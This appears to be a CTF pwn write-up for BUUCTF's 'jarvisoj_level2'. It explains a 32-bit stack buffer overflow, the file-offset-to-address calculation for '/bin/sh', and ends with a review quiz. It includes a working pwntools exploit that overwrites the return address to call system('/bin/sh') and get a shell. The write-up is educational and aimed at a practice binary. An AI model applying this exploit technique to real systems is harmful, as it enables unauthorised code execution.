




<div align="center">

# 🔁 jarvisoj_level2

### Pwn Writeup · BUUCTF · `ret2system` with the Binary's Own Linked `system()`


*`system()` is already in the PLT, `/bin/sh` is already in the binary — all we have to do is fake a call.*

</div>

---

## 📌 TL;DR

A 32-bit, dynamically linked, No-PIE, no-canary binary with NX enabled. `vulnerable_function` reads up to 256 bytes into a 136-byte stack buffer with no bounds checking — a 120-byte overflow. Unlike a pure `ret2win`, there's no single magic function to jump to; instead, the binary already calls `system()` itself (for banner text), so `system@plt` is already linked and usable. We manually recreate the stack shape `system()` expects from a real `call` — return address slot, then argument — and point the argument at a `"/bin/sh"` string already sitting in the binary's own `.rodata`-adjacent segment. The only non-trivial step is converting that string's **file offset** into a **runtime virtual address**, since the two don't match outside the first LOAD segment.

```
payload = b'A' * 140 + p32(system_plt) + b'JUNK' + p32(binsh_addr)
```

| | |
|---|---|
| **Binary** | `jarvis2` — ELF 32-bit, dynamically linked, No PIE, not stripped |
| **Bug** | `read(0, buf, 0x100)` into a 136-byte (`0x88`) stack buffer |
| **Protections** | Canary **off** · NX **on** · PIE **off** · Partial RELRO |
| **Already linked** | `system@plt` — called elsewhere in the binary for banner output |
| **Already present** | `"/bin/sh"` string, embedded in the binary itself |
| **Primitive** | `ret2system`: fake a `call system("/bin/sh")` stack frame via `ret` |
| **Padding** | 140 bytes to the saved return address |
| **Result** | Shell |

---

## 🗺️ Table of Contents

1. [Binary Overview](#1--binary-overview)
2. [Static Analysis](#2--static-analysis)
3. [Reconstructed C Source](#3--reconstructed-c-source)
4. [Exploit](#4--exploit)
5. [Takeaway](#5--takeaway)
6. [Quick Reference — Commands Used](#6--quick-reference--commands-used)
7. [Review Quiz](#7--review-quiz)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 🔎 Binary Overview

```bash
file jarvis2
```

```
jarvis2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV),
dynamically linked, interpreter /lib/ld-linux.so.2, not stripped
```

```bash
checksec --file=jarvis2
```

```
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

| Protection | Status | Impact on exploitation |
|---|---|---|
| Canary | **Off** | We can overwrite the saved return address without tripping a stack-smashing check. |
| NX | **Enabled** | We cannot place shellcode on the stack and jump to it — a code-reuse technique is required instead (`ret2system`, here). |
| PIE | **Off**, base `0x8048000` | All code addresses (including `system@plt`) are fixed at compile time, so they can be hardcoded directly without leaking anything first. |

---

## 2. 🧩 Static Analysis

### 2.1 `vulnerable_function`

```asm
0804844b <vulnerable_function>:
 804844b: push   %ebp
 804844c: mov    %esp,%ebp
 804844e: sub    $0x88,%esp        ; 0x88 = 136 bytes of local stack space
 8048454: sub    $0xc,%esp
 8048457: push   $0x8048540        ; "echo Input:"
 804845c: call   8048320 <system@plt>
 8048461: add    $0x10,%esp
 8048464: sub    $0x4,%esp
 8048467: push   $0x100            ; size = 0x100 (256)
 804846c: lea    -0x88(%ebp),%eax  ; buf address
 8048472: push   %eax
 8048473: push   $0x0              ; fd = 0 (stdin)
 8048475: call   8048310 <read@plt>
 804847a: add    $0x10,%esp
 804847d: nop
 804847e: leave
 804847f: ret
```

Reconstructed C:

```c
void vulnerable_function(void) {
    char buf[136];
    system("echo Input:");
    read(0, buf, 0x100);   // reads up to 256 bytes into a 136-byte buffer
}
```

The buffer is `0x88` (136) bytes, but `read()` accepts up to `0x100` (256) bytes — a classic stack buffer overflow of 120 extra bytes.

### 2.2 Padding Calculation



Because `vulnerable_function` has a standard prologue (`push %ebp; mov %esp,%ebp`), the padding formula is:

```
padding = distance(buffer, saved_ebp) + size(saved_ebp)
        = 136 + 4
        = 140 bytes
```

After 140 bytes of junk, the next 4 bytes land exactly on the saved return address.

### 2.3 `system@plt` Is Already Linked

Unlike challenges where `system()` isn't present in the binary at all, here `vulnerable_function` and `main` both already call `system@plt` (for the `"echo Input:"` and `"Hello World!"` banners). This means we don't need to build an `execve()` syscall chain from scratch (as in `get_started_3dsctf_2016`) — we can directly reuse `system@plt` at `0x08048320`.

### 2.4 Stack Layout Required to Call `system("/bin/sh")` via `ret`

Normally, a call like `system("/bin/sh")` looks like this in assembly:

```asm
push  $addr_of_"/bin/sh"
call  system
```

`call` itself pushes the return address. So when `system` starts executing, the stack (top to bottom) looks like:

```
[ return address ]   <- pushed by `call`
[ "/bin/sh" addr ]   <- argument
```

In our exploit we don't use `call` — we overwrite the vulnerable function's saved return address and let its `ret` instruction jump to `system@plt` directly. From `system`'s point of view this is indistinguishable from being `call`ed, so we must manually recreate that same stack shape:



```
[ 140 bytes padding ]
[ system@plt address ]     <- ret lands here, system "thinks" it was called
[ fake return address ]    <- where system will try to return to (junk is fine)
[ "/bin/sh" address ]      <- system's argument
```

### 2.5 Finding `/bin/sh` in the Binary

```bash
strings -t x ./jarvis2 | grep bin/sh
```

```
   1024 /bin/sh
```

`-t x` means the offset column is in hex, so this is **file offset `0x1024`**, not a decimal number and not yet a usable memory address.

To convert a file offset to a runtime virtual address we need the ELF Program Headers:

```bash
readelf -l ./jarvis2
```

```
Type   Offset     VirtAddr    FileSiz
LOAD   0x000000   0x08048000  0x00680
LOAD   0x000f08   0x08049f08  0x00124
```



`0x1024` doesn't fall in the first LOAD segment (`0x000000`–`0x680`), but it does fall inside the second one (`0xf08`–`0x102c`):

```
0xf08 ≤ 0x1024 ≤ 0x102c   ✓
```

Since this segment's `Offset` (`0xf08`) and `VirtAddr` (`0x08049f08`) are *not* equal, the naive `base + offset` shortcut (which only works when offset and vaddr match, like in the first LOAD segment) does not apply here. The general formula is:

```
runtime_address = VirtAddr_segment + (file_offset - Offset_segment)
```

Applying it:

```
distance = 0x1024 - 0x0f08 = 0x11c
address  = 0x08049f08 + 0x11c = 0x0804a024
```

So `"/bin/sh"` lives at **`0x0804a024`** at runtime. Verified in gdb:

```
pwndbg> x/s 0x0804a024
0x804a024:  "/bin/sh"
```

---

## 3. 🧱 Reconstructed C Source

Putting the disassembly of `vulnerable_function` and `main` back together as C gives a clear picture of the bug:

```c
#include <unistd.h>
#include <stdlib.h>

void vulnerable_function(void) {
    char buf[136];                  // sub $0x88,%esp -> 0x88 = 136 bytes
    system("echo Input:");          // call system@plt, before the read
    read(0, buf, 0x100);            // read(fd=0, buf, size=0x100=256)
    // buf is only 136 bytes, but up to 256 can be written -> overflow
}

int main(void) {
    vulnerable_function();
    system("echo 'Hello World!'");  // second call system@plt, after return
    return 0;
}
```

Notes on this reconstruction:

- `sub $0x88,%esp` maps directly to the 136-byte local buffer, since `vulnerable_function` has a standard frame pointer prologue (`push %ebp; mov %esp,%ebp`) and the buffer starts right at `-0x88(%ebp)`.
- The mismatch between the buffer size (136) and the `read()` size argument (256, i.e. `0x100`) is the actual vulnerability — not an artifact of the reconstruction, but a real bug the original developer introduced.
- Compiling this with `gcc -m32 -fno-stack-protector -z execstack -o jarvis2_rebuilt jarvis2.c` reproduces assembly very close to the original (register allocation / instruction selection may differ slightly depending on compiler version and optimization level).

---

## 4. 🚀 Exploit

```python
from pwn import *

context.arch = 'i386'
context.log_level = 'info'

if len(sys.argv) > 1:
    host, port = sys.argv[1].split(':')
    p = remote(host, int(port), ssl=True, sni=host)
else:
    p = process('./jarvis2')

padding     = b'A' * 140
system_addr = p32(0x08048320)   # system@plt
fake_ret    = b'JUNK'           # system's return address, never used
binsh_addr  = p32(0x0804a024)   # "/bin/sh" inside the binary

payload = padding + system_addr + fake_ret + binsh_addr

p.sendline(payload)
p.interactive()
```

No stack alignment is needed here, even though we `ret` into `system@plt` instead of `call`ing it directly — that alignment requirement (`sub $0x8,%esp` / extra `ret` gadget trick) is specific to the **x86-64 System V ABI**. The 32-bit **cdecl** convention used here has no such alignment requirement.

---

## 5. 🧠 Takeaway

This challenge is a good showcase of **"ret2system with the binary's own linked function"**: when `system()` is already present in the PLT (because the program itself calls it somewhere, like here for the banner text), there is no need to build a full ROP chain to call `execve()` manually. We only need:

1. Enough padding to reach the saved return address.
2. The address of `system@plt`.
3. A fake return address (ignored, since the process exits/gets a shell right after).
4. A pointer to a `"/bin/sh"` (or any shell-spawning) string — which, on a No-PIE binary, can often be found already embedded somewhere in `.rodata`, `.data`, or even leftover in memory, and located by converting its **file offset** to a **virtual address** using the ELF program headers.

The second half of this challenge (offset → VA conversion) is a reusable skill: any time `strings`, `objdump -s`, or similar tools report a **file offset**, that number is *not* directly usable as a pointer until it's translated through the matching LOAD segment's `Offset`/`VirtAddr` pair.

---

## 6. 🧰 Quick Reference — Commands Used

```bash
file ./jarvis2
checksec --file=jarvis2
objdump -d ./jarvis2
objdump -s -j .rodata ./jarvis2
nm -C ./jarvis2 | grep " T "
strings -t x ./jarvis2 | grep bin/sh
readelf -l ./jarvis2
gdb ./jarvis2
  pwndbg> x/s 0x0804a024
```

---

## 7. 🧩 Review Quiz

A few questions worth testing yourself on, based on the trickier points of this challenge.

**Q1. `vulnerable_function` has a standard `push %ebp` prologue and a 136-byte buffer. What's the correct padding to reach the saved return address?**

<details>
<summary>Answer</summary>

136 + 4 = <strong>140 bytes</strong> (buffer size + the 4-byte saved <code>ebp</code>). Since a frame pointer exists, the saved <code>ebp</code> sits between the buffer and the return address, so its size must be added to the distance.
</details>

**Q2. Why do we need 4 junk bytes (a fake return address) right after the `system@plt` address, before the `"/bin/sh"` address?**

<details>
<summary>Answer</summary>

When <code>ret</code> jumps into <code>system@plt</code>, <code>system</code> has no idea it wasn't reached via a normal <code>call</code> — from its perspective the stack must still look like <code>[return address][argument]</code>. The fake return address only needs to occupy that slot; its actual value doesn't matter since the process spawns a shell (or exits) before ever trying to use it.
</details>

**Q3. `strings` reported `/bin/sh` at file offset `0x1024`. Why can't we just compute `0x08048000 + 0x1024` as the runtime address?**

<details>
<summary>Answer</summary>

The simple <code>base + offset</code> shortcut only works when a LOAD segment's <code>Offset</code> equals its <code>VirtAddr</code> (true for the first LOAD segment here, where both are effectively 0-based). <code>0x1024</code> falls inside the <em>second</em> LOAD segment, where <code>Offset</code> (<code>0xf08</code>) and <code>VirtAddr</code> (<code>0x08049f08</code>) are different, so the distance between them must be accounted for instead.
</details>

**Q4. Using `VirtAddr_segment + (file_offset - Offset_segment)`, what is the final runtime address of `"/bin/sh"`?**

<details>
<summary>Answer</summary>

<code>0x1024 - 0x0f08 = 0x11c</code>, then <code>0x08049f08 + 0x11c =</code> <strong><code>0x0804a024</code></strong> — confirmed in gdb with <code>x/s 0x0804a024</code>.
</details>

**Q5. Why didn't this exploit need an extra gadget for stack alignment before `ret`-ing into `system@plt`, unlike some 64-bit challenges?**

<details>
<summary>Answer</summary>

The 16-byte stack alignment requirement before a <code>call</code> only applies to the <strong>System V AMD64 ABI</strong> (64-bit). The 32-bit <strong>cdecl</strong> convention used here has no such requirement, so a direct <code>ret</code> into <code>system@plt</code> works without any extra adjustment.
</details>

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
